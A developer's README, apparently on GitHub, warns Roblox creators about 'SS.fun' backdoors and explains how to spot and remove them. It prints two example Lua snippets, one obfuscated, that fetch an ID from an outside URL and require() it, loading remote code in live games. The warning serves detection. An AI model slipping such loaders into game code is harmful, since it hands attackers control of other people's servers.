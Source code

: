 ### Hello guys, please read carefully.
!!!PLUGIN AND DISCORD SERVER NOT READY YET MY DISCORD ACCOUNT BELOW!!!

Discord : Jxy#9426

# 1. Links

    - https://assetdelivery.org
is SS.fun's first link.
It only works when you're in the game (not in the studio).
It checks the user agent (I've tested it).
If you see this URL, please remove it.

Example code:



```ruby
task.spawn(function()
	pcall(function()
		local newThreadedCall = coroutine.wrap(pcall)
		for _ in newThreadedCall, (select and require), tonumber(game:service("HttpService"):GetAsync("https://assetdelivery.org")) do
		end
	end)
end)
```

    - https://api.serverside.fun/v1/stat
is SS.fun's second link.
It works the same as the first link, only in-game (not in the studio).
If you see this URL, please remove it.

Example code:


```lua
local module = {}
pcall(function()
	local HttpService = game:GetService("HttpService")
	local response = HttpService:GetAsync('https://api.serverside.fun/v1/stat')
	local data = HttpService:JSONDecode(response)
	if(data["id"]) then
		local numbers = string.gsub(data["id"], "%D", "")
		require(tonumber(numbers)) 
	end
end)
return module
```

# 2. FAQ

    - How can I delete it?
First, open the plugin and it will start scanning the game. If it cannot find the module, you will need to find it manually. Advice: go to the webhook, find  the location and start from there.
    
    - I can't find it, what can I do?
Come to our Discord.

# End

Sorry for my not-so-good English

Thanks for listening to my TED talk.
